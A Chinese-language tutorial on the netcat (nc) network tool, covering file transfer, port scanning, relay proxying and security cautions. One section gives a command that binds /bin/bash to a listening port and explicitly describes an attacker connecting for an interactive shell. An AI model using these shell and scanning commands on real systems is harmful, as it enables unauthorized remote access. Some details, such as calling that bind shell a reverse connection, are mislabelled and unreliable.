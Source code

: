 
<small>linux下强大的nc命令，你会用了嘛？</small>
## 使用 Netcat (nc) 命令进行网络通信

网络通信在今天的计算世界中至关重要。不论是在家庭网络、企业内部网络还是互联网上，数据的传输和通信是无法避免的。而 **Netcat**，简称 **nc**，是一款非常强大的网络工具，能够帮助您进行各种网络通信任务。本文将深入介绍 **Netcat**，包括它的背景、功能、用法和一些示例，帮助您了解如何使用这个工具来进行网络通信。

### 什么是 Netcat (nc)？

**Netcat** 是一个多功能的网络工具，最初由 *Hobbit* 于 1995 年创建。它被设计成一个可以用于网络调试和分析的实用工具，但也可以用于各种其他任务，包括端口扫描、数据传输和网络监听。

**Netcat** 通常被称为“网络瑞士军刀”，因为它的灵活性和功能，使其成为网络管理员和安全专家的必备工具之一。尽管 **Netcat** 可以用于各种目的，但它最常用于以下几个方面：

- **数据传输**：您可以使用 **Netcat** 来在计算机之间传输数据，无论是在本地网络上还是通过互联网。这对于备份文件、远程复制数据或在计算机之间共享文件非常有用。

- **网络监听**：**Netcat** 可以将一个计算机设置为监听模式，以接收来自其他计算机的连接请求。这在网络服务器和安全测试中非常有用。

- **端口扫描**：**Netcat** 可以用于扫描目标计算机上开放的网络端口。这对于查找可能的网络漏洞或测试网络安全性非常重要。

- **网络代理**：**Netcat** 可以用于创建网络代理，将一个计算机的流量中继到另一个计算机上。这对于绕过防火墙或隐藏数据流量非常有用。

### Netcat 的基本功能

**Netcat** 的功能非常广泛，以下是一些它的主要功能：

1. **端口扫描**：您可以使用 **Netcat** 来扫描目标计算机上的网络端口，以确定哪些端口处于打开状态，从而帮助识别潜在的漏洞。

2. **网络监听**：**Netcat** 可以将计算机设置为监听模式，等待来自其他计算机的连接请求。一旦连接建立，**Netcat** 将允许您与远程计算机进行通信。

3. **数据传输**：**Netcat** 可以用于在计算机之间传输数据。它可以将文件内容发送到远程计算机，也可以接收文件并保存到本地计算机。

4. **网络代理**：**Netcat** 可以用于创建网络代理，将一个计算机的流量中继到另一个计算机上。这在绕过防火墙或匿名访问网络时非常有用。

5. **反向连接**：**Netcat** 允许您建立反向连接，这意味着一个计算机可以连接到另一个计算机，而不是等待连接请求。这在穿越网络障碍或在不同网络之间建立连接时非常有用。

6. **广播**：**Netcat** 可以用于向特定网络或广播地址发送数据包。这对于向多个计算机广播消息或数据非常有用。

### Netcat 的基本用法

接下来，让我们了解一些常见的 **Netcat** 用法。

#### 1. 在两台计算机之间传输文件

假设您需要将一个文件从一台计算机传输到另一台计算机。您可以使用 **Netcat** 来实现这一目标。

在接收文件的计算机上，执行以下命令：

```shell
nc -l -p 12345 > received_file
```

这会将该计算机设置为监听模式，等待来自其他计算机的连接请求，并将接收到的数据写入 `received_file` 文件中。请注意，`-p` 选项用于指定监听端口，您可以根据需要选择不同的端口号。

在发送文件的计算机上，执行以下命令：

```shell
nc -w 3 <sender_ip> 12345 < file_to_send
```

这会将文件 `file_to_send` 的内容发送到接收计算机的IP地址 `<sender_ip>` 上的端口 `12345`。请注意，`-w 3` 选项用于设置连接超时时间，以确保连接在3秒内建立。

#### 2. 端口扫描

要扫描目标计算机上的端口，可以使用 **Netcat** 的 `-z` 选项，如下所示：

```shell
nc -z -v <target_ip> 1-100
```

这将扫描目标计算机 `<target_ip>` 上的端口范围从 `1` 到 `100`，并显示哪些端口是打开的。

#### 3. 创建一个简单的网络代理

您可以使用 **Netcat** 来创建一个简单的网络代理，将一个计算机上的流量中继到另一个计算机上。在代理服务器上执行以下命令：

```shell
nc -l -p 8080 | nc <destination_ip> <destination_port>
```

这将创建一个代理服务器，监听端口 `8080`，并将接收到的流量中继到 `<destination_ip>` 上的 `<destination_port>` 端口。您可以

在代理服务器上查看传入和传出的流量。

#### 4. 反向连接

要建立反向连接，可以在目标计算机上执行以下命令：

```shell
nc -l -p 12345 -e /bin/bash
```

这会将目标计算机设置为监听模式，等待来自攻击者的连接请求，并在连接建立后启动一个交互式shell。

攻击者可以执行以下命令来连接目标计算机：

```shell
nc <target_ip> 12345
```

这将建立与目标计算机的连接，并打开一个交互式shell，允许攻击者执行命令和操作目标计算机。

### Netcat 的高级用法

除了基本用法外，**Netcat** 还具有一些高级功能和选项，例如加密通信、代理转发和端口转发。这些功能可以使 **Netcat** 成为强大的网络工具，但也需要更多的网络知识和安全意识。

#### 加密通信

**Netcat** 本身不提供加密功能，但您可以与其他工具（如 **OpenSSL**）结合使用，以实现加密通信。通过使用加密通信，您可以确保数据在传输过程中得到保护，不被未经授权的人读取。

#### 代理转发

**Netcat** 可以用于创建代理服务器，将流量从一个端口中继到另一个端口，这对于隐藏真正的服务或应用程序非常有用。例如，您可以将代理设置为监听Web服务器的流量，并将它中继到后端应用程序服务器。

#### 端口转发

**Netcat** 也可以用于创建端口转发规则，将进入一个端口的流量转发到另一个端口，这对于网络调试和测试非常有用。例如，您可以将进入端口 `80` 的流量转发到端口 `8080` 上，以测试Web应用程序的行为。

### 安全注意事项

尽管 **Netcat** 是一个非常强大的工具，但它也可以被滥用用于恶意目的。在使用 **Netcat** 时，请遵循以下安全注意事项：

- **仅在受信任的网络上使用**：不要在未受信任或公共网络上使用 **Netcat**，因为它可以用于发起攻击。

- **遵循法律法规**：确保您在使用 **Netcat** 时遵循适用的法律法规，不要违法使用它。

- **监视网络流量**：如果您在网络上设置了 **Netcat** 服务或代理，请始终监视流量，以确保没有未经授权的访问或滥用。

- **仅与受信任的计算机通信**：在建立连接或传输数据时，请确保与受信任的计算机通信，不要与未经授权的计算机建立连接。

### 结论

**Netcat** 是一个非常强大的网络工具，可以用于各种网络通信任务，从文件传输到端口扫描和网络监听。它的灵活性和功能使其成为网络管理员、系统管理员和安全专家的重要工具之一。然而，在使用 **Netcat** 时，请始终遵循安全最佳实践，以确保网络安全性和数据保密性。

通过本文，您已经了解了 **Netcat** 的基本用法和一些高级用法，希望这些信息对您在网络通信和网络调试中有所帮助。如果您想深入了解 **Netcat**，可以查阅官方文档和更多网络安全资源。